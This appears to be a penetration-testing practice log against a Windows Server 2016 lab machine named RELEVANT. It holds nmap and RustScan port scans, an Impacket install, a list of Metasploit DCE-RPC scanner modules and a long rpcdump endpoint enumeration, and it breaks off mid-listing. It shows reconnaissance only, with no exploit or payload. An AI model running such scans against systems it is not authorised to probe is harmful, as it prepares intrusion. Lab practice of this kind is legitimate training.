

NMAP ┌──(drroot㉿drroot)-[~/Escritorio/eCPPT]
└─$ nmap -sVC -T4 -n 10.10.211.209
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-31 18:23 -05
Nmap scan report for 10.10.211.209
Host is up (0.35s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
80/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods:
|_ Potentially risky methods: TRACE
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2024-08-30T23:20:10
|_Not valid after: 2025-03-01T23:20:10
| rdp-ntlm-info:
| Target_Name: RELEVANT
| NetBIOS_Domain_Name: RELEVANT
| NetBIOS_Computer_Name: RELEVANT
| DNS_Domain_Name: Relevant
| DNS_Computer_Name: Relevant
| Product_Version: 10.0.14393
|_ System_Time: 2024-08-31T23:25:20+00:00
|_ssl-date: 2024-08-31T23:25:59+00:00; -1s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 1h23m59s, deviation: 3h07m51s, median: -1s
| smb2-time:
| date: 2024-08-31T23:25:20
|_ start_date: 2024-08-31T23:20:10
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled but not required
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb-os-discovery:
| OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
| Computer name: Relevant
| NetBIOS computer name: RELEVANT\x00
| Workgroup: WORKGROUP\x00
|_ System time: 2024-08-31T16:25:21-07:00
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 170.20 seconds
┌──(drroot㉿drroot)-[~/Escritorio/eCPPT]
┌──(drroot㉿drroot)-[~/Escritorio/eCPPT]
└─$ sudo nmap -sS -p- --min-rate=5000 -T4 -n 10.10.53.89
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-31 20:18 -05
Nmap scan report for 10.10.53.89
Host is up (0.37s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT STATE SERVICE
80/tcp open http
135/tcp open msrpc
139/tcp open netbios-ssn
445/tcp open microsoft-ds
3389/tcp open ms-wbt-server
49663/tcp open unknown
49667/tcp open unknown
49668/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 27.62 seconds
Rustscan ┌──(drroot㉿drroot)-[~/Escritorio/eCPPT/rustscan-2.3.0-x86_64-linux]
└─$ ./rustscan -a 10.10.53.89
.----. .-. .-. .----..---. .----. .---. .--. .-. .-.
| {} }| { } |{ {__ {_ _}{ {__ / ___} / {} \ | `| |
| .-. \| {_} |.-._} } | | .-._} }\ }/ /\ \| |\ |
`-' `-'`-----'`----' `-' `----' `---' `-' `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog :
: https://github.com/RustScan/RustScan :
--------------------------------------
RustScan: Exploring the digital landscape, one IP at a time.
[~] The config file is expected to be at "/home/drroot/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'.
Open 10.10.53.89:80
Open 10.10.53.89:139
Open 10.10.53.89:135
Open 10.10.53.89:445
Open 10.10.53.89:3389
Open 10.10.53.89:49663
Open 10.10.53.89:49667
Open 10.10.53.89:49668
[~] Starting Script(s)
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-31 20:06 -05
Initiating Ping Scan at 20:06
Scanning 10.10.53.89 [2 ports]
Completed Ping Scan at 20:06, 0.31s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:06
Completed Parallel DNS resolution of 1 host. at 20:06, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 20:06
Scanning 10.10.53.89 [8 ports]
Discovered open port 135/tcp on 10.10.53.89
Discovered open port 49663/tcp on 10.10.53.89
Discovered open port 80/tcp on 10.10.53.89
Discovered open port 139/tcp on 10.10.53.89
Discovered open port 49667/tcp on 10.10.53.89
Discovered open port 445/tcp on 10.10.53.89
Discovered open port 3389/tcp on 10.10.53.89
Discovered open port 49668/tcp on 10.10.53.89
Completed Connect Scan at 20:06, 0.32s elapsed (8 total ports)
Nmap scan report for 10.10.53.89
Host is up, received syn-ack (0.32s latency).
Scanned at 2024-08-31 20:06:59 -05 for 0s
PORT STATE SERVICE REASON
80/tcp open http syn-ack
135/tcp open msrpc syn-ack
139/tcp open netbios-ssn syn-ack
445/tcp open microsoft-ds syn-ack
3389/tcp open ms-wbt-server syn-ack
49663/tcp open unknown syn-ack
49667/tcp open unknown syn-ack
49668/tcp open unknown syn-ack
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.70 seconds
NMAP to discovered ports ┌──(drroot㉿drroot)-[~/Escritorio/eCPPT]
└─$ nmap -sVC -T4 -n 10.10.53.89 -p80,135,139,445,3389,49663,49667,49668
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-31 20:08 -05
Nmap scan report for 10.10.53.89
Host is up (0.35s latency).
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods:
|_ Potentially risky methods: TRACE
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-09-01T01:10:24+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2024-08-31T00:36:32
|_Not valid after: 2025-03-02T00:36:32
| rdp-ntlm-info:
| Target_Name: RELEVANT
| NetBIOS_Domain_Name: RELEVANT
| NetBIOS_Computer_Name: RELEVANT
| DNS_Domain_Name: Relevant
| DNS_Computer_Name: Relevant
| Product_Version: 10.0.14393
|_ System_Time: 2024-09-01T01:09:45+00:00
49663/tcp open http Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods:
|_ Potentially risky methods: TRACE
49667/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 1h23m59s, deviation: 3h07m51s, median: -2s
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled but not required
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-time:
| date: 2024-09-01T01:09:44
|_ start_date: 2024-09-01T00:36:33
| smb-os-discovery:
| OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
| Computer name: Relevant
| NetBIOS computer name: RELEVANT\x00
| Workgroup: WORKGROUP\x00
|_ System time: 2024-08-31T18:09:45-07:00
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.06 seconds
Tools I need: Impacket: https://github.com/fortra/impacket/tree/master
┌──(drroot㉿drroot)-[~/Escritorio/eCPPT]
└─$ sudo apt-get install python3-impacket
[sudo] contraseña para drroot:
Lo siento, pruebe otra vez.
[sudo] contraseña para drroot:
Leyendo lista de paquetes... Hecho
Creando árbol de dependencias... Hecho
Leyendo la información de estado... Hecho
Los paquetes indicados a continuación se instalaron de forma automática y ya no son necesarios.
dcraw flac libout123-0t64 libsyn123-0t64 mpg123
Utilice «sudo apt autoremove» para eliminarlos.
Se actualizarán los siguientes paquetes:
python3-impacket
1 actualizados, 0 nuevos se instalarán, 0 para eliminar y 2078 no actualizados.
Se necesita descargar 964 kB de archivos.
Se utilizarán 487 kB de espacio de disco adicional después de esta operación.
Des:1 http://http.kali.org/kali kali-last-snapshot/main amd64 python3-impacket all 0.11.0+git20240410.ae3b5db-0kali1 [964 kB]
Descargados 964 kB en 0s (3.305 kB/s)
(Leyendo la base de datos ... 483251 ficheros o directorios instalados actualmente.)
Preparando para desempaquetar .../python3-impacket_0.11.0+git20240410.ae3b5db-0kali1_all.deb ...
Desempaquetando python3-impacket (0.11.0+git20240410.ae3b5db-0kali1) sobre (0.10.0-2) ...
Configurando python3-impacket (0.11.0+git20240410.ae3b5db-0kali1) ...
Procesando disparadores para kali-menu (2022.3.1) ...
Scanning processes...
Scanning processor microcode...
Scanning linux images...
Running kernel seems to be up-to-date.
The processor microcode seems to be up-to-date.
No services need to be restarted.
No containers need to be restarted.
No user sessions are running outdated binaries.
No VM guests are running outdated hypervisor (qemu) binaries on this host.
impacket-rpcdump and msfconsole use auxiliary/scanner/dcerpc/endpoint_mapper
use auxiliary/scanner/dcerpc/hidden
use auxiliary/scanner/dcerpc/management
use auxiliary/scanner/dcerpc/tcp_dcerpc_auditor
rpcdump.py <IP> -p 135
┌──(drroot㉿drroot)-[~/Escritorio/eCPPT]
└─$ impacket-rpcdump 10.10.211.209 -p 135
Impacket v0.12.0.dev1 - Copyright 2023 Fortra
[*] Retrieving endpoint list from 10.10.211.209
Protocol: [MS-RSP]: Remote Shutdown Protocol
Provider: wininit.exe
UUID : D95AFE70-A6D5-4259-822E-2C84DA1DDB0D v1.0
Bindings:
ncacn_ip_tcp:10.10.211.209[49664]
ncalrpc:[WindowsShutdown]
ncacn_np:\\RELEVANT[\PIPE\InitShutdown]
ncalrpc:[WMsgKRpc063E10]
Protocol: N/A
Provider: winlogon.exe
UUID : 76F226C3-EC14-4325-8A99-6A46348418AF v1.0
Bindings:
ncalrpc:[WindowsShutdown]
ncacn_np:\\RELEVANT[\PIPE\InitShutdown]
ncalrpc:[WMsgKRpc063E10]
ncalrpc:[WMsgKRpc064641]
Protocol: N/A
Provider: N/A
UUID : 9B008953-F195-4BF9-BDE0-4471971E58ED v1.0
Bindings:
ncalrpc:[LRPC-ff632e98f66a6f0d2b]
ncalrpc:[dabrpc]
ncalrpc:[csebpub]
ncalrpc:[LRPC-c5b5ce69382c71d319]
ncalrpc:[LRPC-dbe5f366faf28320b9]
ncalrpc:[LRPC-d1a55fc55f81af51c4]
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : D09BDEB5-6171-4A34-BFE2-06FA82652568 v1.0
Bindings:
ncalrpc:[csebpub]
ncalrpc:[LRPC-c5b5ce69382c71d319]
ncalrpc:[LRPC-dbe5f366faf28320b9]
ncalrpc:[LRPC-d1a55fc55f81af51c4]
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
ncalrpc:[LRPC-dbe5f366faf28320b9]
ncalrpc:[LRPC-d1a55fc55f81af51c4]
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
ncalrpc:[LRPC-7d52cd791892437c82]
ncalrpc:[dhcpcsvc]
ncalrpc:[dhcpcsvc6]
ncacn_ip_tcp:10.10.211.209[49665]
ncacn_np:\\RELEVANT[\pipe\eventlog]
ncalrpc:[eventlog]
ncalrpc:[LRPC-a3c6caf3aa186bbd1a]
ncalrpc:[LRPC-ae7828cc5bd3512014]
Protocol: N/A
Provider: N/A
UUID : 697DCDA9-3BA9-4EB2-9247-E11F1901B0D2 v1.0
Bindings:
ncalrpc:[LRPC-c5b5ce69382c71d319]
ncalrpc:[LRPC-dbe5f366faf28320b9]
ncalrpc:[LRPC-d1a55fc55f81af51c4]
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 857FB1BE-084F-4FB5-B59C-4B2C4BE5F0CF v1.0
Bindings:
ncalrpc:[LRPC-d1a55fc55f81af51c4]
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : B8CADBAF-E84B-46B9-84F2-6F71C03F9E55 v1.0
Bindings:
ncalrpc:[LRPC-d1a55fc55f81af51c4]
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 20C40295-8DBA-48E6-AEBF-3E78EF3BB144 v1.0
Bindings:
ncalrpc:[LRPC-d1a55fc55f81af51c4]
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 2513BCBE-6CD4-4348-855E-7EFB3C336DD3 v1.0
Bindings:
ncalrpc:[LRPC-d1a55fc55f81af51c4]
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 88ABCBC3-34EA-76AE-8215-767520655A23 v0.0
Bindings:
ncalrpc:[LRPC-d1a55fc55f81af51c4]
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 76C217BC-C8B4-4201-A745-373AD9032B1A v1.0
Bindings:
ncalrpc:[LRPC-d1a55fc55f81af51c4]
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 55E6B932-1979-45D6-90C5-7F6270724112 v1.0
Bindings:
ncalrpc:[LRPC-d1a55fc55f81af51c4]
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 4DACE966-A243-4450-AE3F-9B7BCB5315B8 v1.0
Bindings:
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 1832BCF6-CAB8-41D4-85D2-C9410764F75A v1.0
Bindings:
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : C521FACF-09A9-42C5-B155-72388595CBF0 v0.0
Bindings:
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 2C7FD9CE-E706-4B40-B412-953107EF9BB0 v0.0
Bindings:
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 0D3E2735-CEA0-4ECC-A9E2-41A2D81AED4E v1.0
Bindings:
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : C605F9FB-F0A3-4E2A-A073-73560F8D9E3E v1.0
Bindings:
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 1B37CA91-76B1-4F5E-A3C7-2ABFC61F2BB0 v1.0
Bindings:
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 8BFC3BE1-6DEF-4E2D-AF74-7C47CD0ADE4A v1.0
Bindings:
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 2D98A740-581D-41B9-AA0D-A88B9D5CE938 v1.0
Bindings:
ncalrpc:[OLE900C59EF8D364FB4C7548855DBFD]
ncacn_np:\\RELEVANT[\pipe\LSM_API_service]
ncalrpc:[LSMApi]
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: sysntfy.dll
UUID : C9AC6DB5-82B7-4E55-AE8A-E464ED7B4277 v1.0 Impl friendly name
Bindings:
ncalrpc:[LRPC-c944ed3cd4b5ed06db]
ncalrpc:[actkernel]
ncalrpc:[umpo]
ncalrpc:[senssvc]
ncalrpc:[LRPC-4bea3e1d172efa7a01]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
ncalrpc:[senssvc]
ncalrpc:[LRPC-4bea3e1d172efa7a01]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
Protocol: N/A
Provider: N/A
UUID : 5824833B-3C1A-4AD2-BDFD-C31D19E23ED2 v1.0
Bindings:
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : BDAA0970-413B-4A3E-9E5D-F6DC9D7E0760 v1.0
Bindings:
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 3B338D89-6CFA-44B8-847E-531531BC9992 v1.0
Bindings:
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 8782D3B9-EBBD-4644-A3D8-E8725381919B v1.0
Bindings:
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 085B0334-E454-4D91-9B8C-4134F9E793F3 v1.0
Bindings:
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : 4BEC6BB8-B5C2-4B6F-B2C1-5DA5CF92D0D9 v1.0
Bindings:
ncalrpc:[actkernel]
ncalrpc:[umpo]
Protocol: N/A
Provider: N/A
UUID : A500D4C6-0DD1-4543-BC0C-D5F93486EAF8 v1.0
Bindings:
ncalrpc:[LRPC-d0ce3b2a172f708f68]
ncalrpc:[LRPC-7d52cd791892437c82]
ncalrpc:[dhcpcsvc]
ncalrpc:[dhcpcsvc6]
ncacn_ip_tcp:10.10.211.209[49665]
ncacn_np:\\RELEVANT[\pipe\eventlog]
ncalrpc:[eventlog]
ncalrpc:[LRPC-a3c6caf3aa186bbd1a]
Protocol: N/A
Provider: dhcpcsvc.dll
UUID : 3C4728C5-F0AB-448B-BDA1-6CE01EB0A6D5 v1.0 DHCP Client LRPC Endpoint
Bindings:
ncalrpc:[dhcpcsvc]
ncalrpc:[dhcpcsvc6]
ncacn_ip_tcp:10.10.211.209[49665]
ncacn_np:\\RELEVANT[\pipe\eventlog]
ncalrpc:[eventlog]
ncalrpc:[LRPC-a3c6caf3aa186bbd1a]
Protocol: N/A
Provider: dhcpcsvc6.dll
UUID : 3C4728C5-F0AB-448B-BDA1-6CE01EB0A6D6 v1.0 DHCPv6 Client LRPC Endpoint
Bindings:
ncalrpc:[dhcpcsvc6]
ncacn_ip_tcp:10.10.211.209[49665]
ncacn_np:\\RELEVANT[\pipe\eventlog]
ncalrpc:[eventlog]
ncalrpc:[LRPC-a3c6caf3aa186bbd1a]
Protocol: [MS-EVEN6]: EventLog Remoting Protocol
Provider: wevtsvc.dll
UUID : F6BEAFF7-1E19-4FBB-9F8F-B89E2018337C v1.0 Event log TCPIP
Bindings:
ncacn_ip_tcp:10.10.211.209[49665]
ncacn_np:\\RELEVANT[\pipe\eventlog]
ncalrpc:[eventlog]
ncalrpc:[LRPC-a3c6caf3aa186bbd1a]
Protocol: N/A
Provider: nrpsrv.dll
UUID : 30ADC50C-5CBC-46CE-9A0E-91914789E23C v1.0 NRP server endpoint
Bindings:
ncalrpc:[LRPC-a3c6caf3aa186bbd1a]
Protocol: N/A
Provider: pcasvc.dll
UUID : 0767A036-0D22-48AA-BA69-B619480F38CB v1.0 PcaSvc
Bindings:
ncalrpc:[LRPC-8a0487909e82860246]
ncalrpc:[TSUMRPD_PRINT_DRV_LPC_API]
ncalrpc:[OLE446C2754DC64E78AC02C587782D2]
ncalrpc:[LRPC-32cde8aa94f2aa37a6]
ncalrpc:[LRPC-ae7828cc5bd3512014]
Protocol: N/A
Provider: N/A
UUID : E40F7B57-7A25-4CD3-A135-7F7D3DF9D16B v1.0 Network Connection Broker server endpoint
Bindings:
ncalrpc:[LRPC-8a0487909e82860246]
ncalrpc:[TSUMRPD_PRINT_DRV_LPC_API]
ncalrpc:[OLE446C2754DC64E78AC02C587782D2]
ncalrpc:[LRPC-32cde8aa94f2aa37a6]
ncalrpc:[LRPC-ae7828cc5bd3512014]
Protocol: N/A
Provider: N/A
UUID : 880FD55E-43B9-11E0-B1A8-CF4EDFD72085 v1.0 KAPI Service endpoint
Bindings:
ncalrpc:[LRPC-8a0487909e82860246]
ncalrpc:[TSUMRPD_PRINT_DRV_LPC_API]
ncalrpc:[OLE446C2754DC64E78AC02C587782D2]
ncalrpc:[LRPC-32cde8aa94f2aa37a6]
ncalrpc:[LRPC-ae7828cc5bd3512014]
Protocol: N/A
Provider: N/A
UUID : 5222821F-D5E2-4885-84F1-5F6185A0EC41 v1.0 Network Connection Broker server endpoint for NCB Reset module
Bindings:
ncalrpc:[LRPC-32cde8aa94f2aa37a6]
ncalrpc:[LRPC-ae7828cc5bd3512014]
Protocol: N/A
Provider: MPSSVC.dll
UUID : 2FB92682-6599-42DC-AE13-BD2CA89BD11C v1.0 Fw APIs
Bindings:
ncalrpc:[LRPC-25283adb98e89a949b]
ncalrpc:[LRPC-bfd295d3c39895ba0d]
ncalrpc:[LRPC-400aff9001828add07]
Protocol: N/A
Provider: N/A
UUID : F47433C3-3E9D-4157-AAD4-83AA1F5C2D4C v1.0 Fw APIs
Bindings:
ncalrpc:[LRPC-25283adb98e89a949b]
ncalrpc:[LRPC-bfd295d3c39895ba0d]
ncalrpc:[LRPC-400aff9001828add07]
Protocol: N/A
Provider: MPSSVC.dll
UUID : 7F9D11BF-7FB9-436B-A812-B2D50C5D4C03 v1.0 Fw APIs
Bindings:
ncalrpc:[LRPC-25283adb98e89a949b]
ncalrpc:[LRPC-bfd295d3c39895ba0d]
ncalrpc:[LRPC-400aff9001828add07]
Protocol: N/A
Provider: BFE.DLL
UUID : DD490425-5325-4565-B774-7E27D6C09C24 v1.0 Base Firewall Engine API
Bindings:
ncalrpc:[LRPC-bfd295d3c39895ba0d]
ncalrpc:[LRPC-400aff9001828add07]
Protocol: N/A
Provider: N/A
UUID : DF4DF73A-C52D-4E3A-8003-8437FDF8302A v0.0 WM_WindowManagerRPC\Server
Bindings:
ncalrpc:[LRPC-400aff9001828add07]
Protocol: N/A
Provider: N/A
UUID : A4B8D482-80CE-40D6-934D-B22A01A44FE7 v1.0 LicenseManager
Bindings:
ncalrpc:[LicenseServiceEndpoint]
Protocol: N/A
Provider: N/A
UUID : 3473DD4D-2E88-4006-9CBA-22570909DD10 v5.1 WinHttp Auto-Proxy Service
Bindings:
ncalrpc:[OLECB9AD69A2FC13E6E2D68A5881281]
ncalrpc:[LRPC-779e752efbefeb8584]
Protocol: N/A
Provider: nsisvc.dll
UUID : 7EA70BCF-48AF-4F6A-8968-6A440754D5FA v1.0 NSI server endpoint
Bindings:
ncalrpc:[LRPC-779e752efbefeb8584]
Protocol: N/A
Provider: N/A
UUID : 572E35B4-1344-4565-96A1-F5DF3BFA89BB v1.0 LiveIdSvcNotify RPC Interface
Bindings:
ncalrpc:[liveidsvcnotify]
Protocol: N/A
Provider: N/A
UUID : FAF2447B-B348-4FEB-8DBE-BEEE5B7F7778 v1.0 OnlineProviderCert RPC Interface
Bindings:
ncalrpc:[LRPC-19aed192163f05c8c5]
Protocol: N/A
Provider: N/A
UUID : CC105610-DA03-467E-BC73-5B9E2937458D v1.0 LiveIdSvc RPC Interface
Bindings:
ncalrpc:[LRPC-19aed192163f05c8c5]
Protocol: N/A
Provider: N/A
UUID : 0D3C7F20-1C8D-4654-A1B3-51563B298BDA v1.0 UserMgrCli
Bindings:
ncalrpc:[LRPC-d45dca6e77fc3da3c4]
ncalrpc:[LRPC-6cdb557a8eb4025087]
ncalrpc:[ubpmtaskhostchannel]
ncacn_np:\\RELEVANT[\PIPE\atsvc]
ncacn_ip_tcp:10.10.211.209[49666]
ncacn_np:\\RELEVANT[\pipe\SessEnvPublicRpc]
ncalrpc:[SessEnvPrivateRpc]
ncalrpc:[DeviceSetupManager]
ncalrpc:[senssvc]
ncalrpc:[LRPC-4bea3e1d172efa7a01]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
Protocol: N/A
Provider: N/A
UUID : B18FBAB6-56F8-4702-84E0-41053293A869 v1.0 UserMgrCli
Bindings:
ncalrpc:[LRPC-d45dca6e77fc3da3c4]
ncalrpc:[LRPC-6cdb557a8eb4025087]
ncalrpc:[ubpmtaskhostchannel]
ncacn_np:\\RELEVANT[\PIPE\atsvc]
ncacn_ip_tcp:10.10.211.209[49666]
ncacn_np:\\RELEVANT[\pipe\SessEnvPublicRpc]
ncalrpc:[SessEnvPrivateRpc]
ncalrpc:[DeviceSetupManager]
ncalrpc:[senssvc]
ncalrpc:[LRPC-4bea3e1d172efa7a01]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
Protocol: N/A
Provider: N/A
UUID : C49A5A70-8A7F-4E70-BA16-1E8F1F193EF1 v1.0 Adh APIs
Bindings:
ncalrpc:[LRPC-6cdb557a8eb4025087]
ncalrpc:[ubpmtaskhostchannel]
ncacn_np:\\RELEVANT[\PIPE\atsvc]
